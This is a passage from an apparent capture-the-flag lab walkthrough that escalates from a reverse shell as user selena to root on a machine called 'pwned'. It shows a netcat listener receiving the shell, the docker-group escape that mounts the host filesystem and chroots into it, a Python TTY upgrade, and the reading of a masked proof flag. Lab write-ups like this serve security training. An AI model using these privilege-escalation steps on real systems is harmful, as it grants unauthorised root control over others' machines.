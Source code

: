 > Yes we are `selena` now! And we see we are in the `docker` group
{: .prompt-info }

This usually allows us to escalate to `root`. Lets use `gtfobins` to escalate.
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.182.95: inverse host lookup failed: Unknown host
connect to [192.168.45.186] from (UNKNOWN) [192.168.182.95] 42936
id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
the input device is not a TTY
```

> We need a `TTY` first...
{: .prompt-info }

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
selena@pwned:/home/ariana$ export TERM=xterm
export TERM=xterm
selena@pwned:/home/ariana$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

> Yes! We are `root`
{: .prompt-info }

## get second flag
```bash
# cd /root
cd /root
# ls
ls
proof.txt  root.txt
# cat proof.txt
cat proof.txt
a******************************8
```

Pwned! <@:-)
